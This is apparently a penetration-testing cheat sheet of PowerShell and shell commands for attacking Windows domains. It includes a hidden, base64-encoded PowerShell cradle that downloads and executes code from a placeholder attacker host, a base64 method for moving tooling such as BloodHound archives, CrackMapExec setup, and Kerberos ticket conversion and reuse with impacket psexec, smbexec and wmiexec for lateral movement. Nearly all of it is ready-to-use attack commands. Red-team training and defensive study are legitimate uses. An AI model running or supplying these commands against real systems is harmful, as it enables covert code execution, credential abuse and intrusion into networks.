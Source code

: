 #### Transfer files base64
```
$Content = Get-Content -Encoding Byte -Path 20221025020336_BloodHound.zip
[System.Convert]::ToBase64String($Content)
$Base64 = "<PASTE BASE64>"
Set-Content -Value $([System.Convert]::FromBase64String($Base64)) -Encoding Byte -Path bloodhound.zip
```

#### Base64 encoded commands on Windows
```
$str = 'IEX ((new-object net.webclient).downloadstring("http://<IP>/a"))'
[System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))

powershell.exe -nop -w hidden -enc <BASE64 STRING>
```

#### Base64 encoded commands on Linux
```
set str 'IEX ((new-object net.webclient).downloadstring("http://<IP>.com/a"))'
echo -en $str | iconv -t UTF-16LE | base64 -w 0

powershell.exe -nop -w hidden -enc <BASE64 STRING>
```

#### Crackmapexec on windows
- Download cme https://github.com/byt3bl33d3r/CrackMapExec/releases/
- Download latest version of python which is required my cme (currently 3.10) (Windows embeddable package (64-bit)) https://www.python.org/downloads/windows/

```
#add python to path variable:
$env:Path += ";c:\python"
$env:Path += ";c:\tools\python"

#add the register key if error blablah\DemoDLL_RemoteProcess.vcxproj.filters
REG ADD "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\FileSystem" /v LongPathsEnabled /t REG_DWORD /d 1 /f

#add the registery key for colors
REG ADD HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1
```

#### Change tickets .kirbi to .ccache and vice versa
```
python3 ticketConverter.py Administrator.kirbi Administrator.ccache
````

#### Use tickets with impacket
```
export KRB5CCNAME=<TGT_ccache_file>
python3 script.py -k -no-pass

python3 psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python3 smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python3 wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
```
